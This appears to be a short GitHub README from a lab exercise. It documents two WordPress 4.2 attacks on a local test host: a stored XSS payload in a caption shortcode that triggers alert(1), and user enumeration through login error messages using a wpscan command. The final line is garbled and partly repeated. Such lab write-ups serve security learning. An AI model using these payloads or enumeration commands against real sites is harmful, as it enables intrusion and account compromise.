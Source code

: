 # GitHub-V-Kali
Attack 1
XSS 
version 4.2
Summary - Wordpress allows you to execute JS on your browser when creating or editing pages or posts
how to recreate - Start a new page, put in any title you want ant then insurt this code into the main text box : TEST!!![caption width="1" caption='<a href="' ">]</a><a href="http://onMouseOver='alert(1)'">XSS 💀</a>
Attack 2
User Enumeration
Version 4.2
Summary - based on what messages we recieve from the website when we enter credentials we are able to tell if the user is real or not.
recreate In Kali terminal run: wpscan --url http://wpdistillery.vm --enumerate uinal run: wpscan --url http://wpdistillery.vm --enumerate u
